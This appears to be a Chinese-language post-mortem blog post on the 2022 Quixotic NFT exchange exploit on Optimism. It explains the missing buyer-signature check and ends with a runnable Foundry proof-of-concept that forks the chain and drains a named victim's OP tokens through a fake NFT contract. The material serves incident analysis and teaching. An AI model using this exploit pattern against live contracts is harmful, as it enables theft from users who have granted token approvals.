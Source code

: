 ```yaml
---
layout: post
category: attack_events
---
```

# Quixotic@signature@validation

## 事件背景

Quixotic的交易所合约ExchangeV4存在漏洞，黑客可以获得任何用户授权到合约的金额，因为它只检查了买单，而没有检查卖单。目前交易所合约已被紧急关闭。

- 时间：2022.07.01
- 损失金额：$100k

## 交易

- 攻击事件hash：[0x5dc519726e1236eb846271f6699e03cdd1a8fd593a2900c71cd2aabbdb7c92e6](https://optimistic.etherscan.io/tx/0x5dc519726e1236eb846271f6699e03cdd1a8fd593a2900c71cd2aabbdb7c92e6)
- 发起攻击的黑客EOA：[0x0a0805082ea0fc8bfdcc6218a986efda6704efe5](https://optimistic.etherscan.io/address/0x0a0805082ea0fc8bfdcc6218a986efda6704efe5)
- 漏洞合约地址：[0x065e8a87b8f11aed6facf9447abe5e8c5d7502b6](https://optimistic.etherscan.io/address/0x065e8a87b8f11aed6facf9447abe5e8c5d7502b6#code)

## 资金流向

![image-20230830142409002](06.Quixotic@signature@validation/image-20230830142409002.png)

## 攻击过程

![image-20230830143627148](06.Quixotic@signature@validation/image-20230830143627148.png)

## 攻击详细分析

发生漏洞的是下面的这个方法（省略了无关紧要的代码），这是一个交易的函数，它的用意是：检查交易是否可以成功，然后用一个卖家的卖单和一个买家的买单进行匹配，然后成交这比交易。但是分析代码，我们发现这个方法只检查了卖单的有效性`_validateSellerSignature(sellOrder, signature)`，而没检查买单是否有效，也就是说买家有没有签名交易并没有做检查。

由于没有对买单的交易做检查，那么黑客可以随便创建一个没价值的代币卖单，然后找受害者，将其地址作为买单，这样受害者没有签名买单的情况下，就可以转移受害者的资产，当然前提是受害者之前approve给此合约（这样合约才能`transferFrom()`转移走受害者的资产给黑客）。

```solidity
	function fillSellOrder(....) external payable whenNotPaused nonReentrant {
        // If the payment ERC20 is the zero address, we check that enough native ETH has been sent
        // with the transaction. Otherwise, we use the supplied ERC20 payment token.
        if (paymentERC20 == address(0)) {
            require(msg.value >= price, "Transaction doesn't have the required ETH amount.");
        } else {
            _checkValidERC20Payment(buyer, price, paymentERC20);
        }

        SellOrder memory sellOrder = SellOrder(....);

        // Make sure the order is not cancelled
        require(
            cancellationRegistry.getSellOrderCancellationBlockNumber(seller, contractAddress, tokenId) < createdAtBlockNumber,
            "This order has been cancelled."
        );

        // Check signature
        require(_validateSellerSignature(sellOrder, signature), "Signature is not valid for SellOrder.");
		......
        _fillSellOrder(sellOrder, buyer);
    }
```

我们追踪一下此笔交易的整个流程

1.`_checkValidERC20Payment(buyer, price, paymentERC20)`：查看这个ERC20交易代币是否被approve授权过，并且买单有足够的钱，然后此交易所合约有足够的allowance

![image-20230830145123131](06.Quixotic@signature@validation/image-20230830145123131.png)

2.`cancellationRegistry.getSellOrderCancellationBlockNumber(seller, contractAddress, tokenId) < createdAtBlockNumber`：检查这个卖单是否被取消了

3.`_validateSellerSignature(sellOrder, signature)`：检查卖单是否有效，用ECDSA来检查签名的有效性。

![image-20230830145642053](06.Quixotic@signature@validation/image-20230830145642053.png)

4.`_fillSellOrder(sellOrder, buyer)`：进行交易，真正的关键转账是`_sendERC20PaymentsWithRoyalties()`，他会从买家发送两笔钱到买单中，一个给`_makerWallet`也就是合约的项目方地址，算是手续费，另外一个给到黑客`seller`，然后获利离场，受害者则在`_transferNFT()`中得到黑客没用的NFT

![image-20230830145934968](06.Quixotic@signature@validation/image-20230830145934968.png)

在区块链浏览器查看黑客的EOA账户，我们可以发现，黑客使用同样的手法重复的进行攻击

![image-20230830152500759](06.Quixotic@signature@validation/image-20230830152500759.png)

追溯到第一笔合约，我们发现部署了一个合约，这个合约地址将会被作为`fillSellOrder()`的contractAddress参数，产生没有价值的NFT来创建卖单

![image-20230830153613362](06.Quixotic@signature@validation/image-20230830153613362.png)

对这个合约进行反编译，我们得以验证此合约就是用于辅助攻击而创建的产生没价值NFT的合约

![image-20230830154121509](06.Quixotic@signature@validation/image-20230830154121509.png)

## 复现

[github](https://github.com/chen4903/BlockChainPoC/tree/master/test)

```solidity
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "../interface.sol";
import "./NFTContract.sol";

contract Attacker is Test {

    NFTContract public nftHelper;
    IQuixotic public quixotic = IQuixotic(address(0x065e8A87b8F11aED6fAcf9447aBe5E8C5D7502b6));
    IERC20 public op = IERC20(0x4200000000000000000000000000000000000042);

    address public attacker = 0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf;
    address public victim = 0x4D9618239044A2aB2581f0Cc954D28873AFA4D7B;

     function setUp() public {
        vm.createSelectFork("optimism", 13_591_382);
        nftHelper = new NFTContract();

        vm.label(address(nftHelper), "nftHelper");
        vm.label(address(quixotic), "quixotic");
        vm.label(address(op), "op");
    }

    function test_Exploit() public {

        emit log_named_uint("[Before] attacker OP Balance:", op.balanceOf(attacker));
        vm.startBroadcast(attacker);
        uint256 victimBalance = op.balanceOf(victim);

        quixotic.fillSellOrder(
            address(attacker), // seller
            address(nftHelper), // contractAddress
            uint256(1), // tokenId
            uint256(1), // startTime
            uint256(9999999999999999999999999999999999999999), // expiration
            uint256(victimBalance), // price, 黑客需要知道受害者拥有多少op，全部取走
            uint256(1), // quantity
            uint256(1), // createdAtBlockNumber
            address(0x4200000000000000000000000000000000000042), // paymentERC20
            // 这个签名需要到链下进行，计算过程放到了calSignature.sol中
            hex"ed60c44be131f7252ba5b53a3a56ab340a5231c122f454e37fed4302a4ae5568191eee46f491eefd3c0aeb895f9045ded4c55194e204647a78528e34085b9ef81b", // signature
            address(victim) // buyer，受害者
        );

        vm.stopBroadcast();

        emit log_named_uint("[after] attacker OP Balance:", op.balanceOf(attacker));
    }

   
}
```

```solidity
pragma solidity ^0.8.10;

contract NFTContract {
    function supportsInterface(bytes4 x) public returns(bool){
        if(x == 0x01ffc9a7){
            return true;
        }else if(x == 0xffffffff){
            return false;
        }else if(x == 0x80ac58cd){
            return false;
        }else if(x == 0xd9b67a26){
            return true;
        }
    }

    function isApprovedForAll(address, address) public returns(bool){
        return true;
    }

    function transferFrom(address, address, uint256) public returns(bool){
        return true;
    }
    
    function safeTransferFrom(address, address, uint256, uint256, bytes memory) public returns(bool){
        return true;
    }
}
```

## 建议

关键方法一定要对交易进行充分的检验！这里就是缺少了对买家的检验，导致用户平白无故成了买家













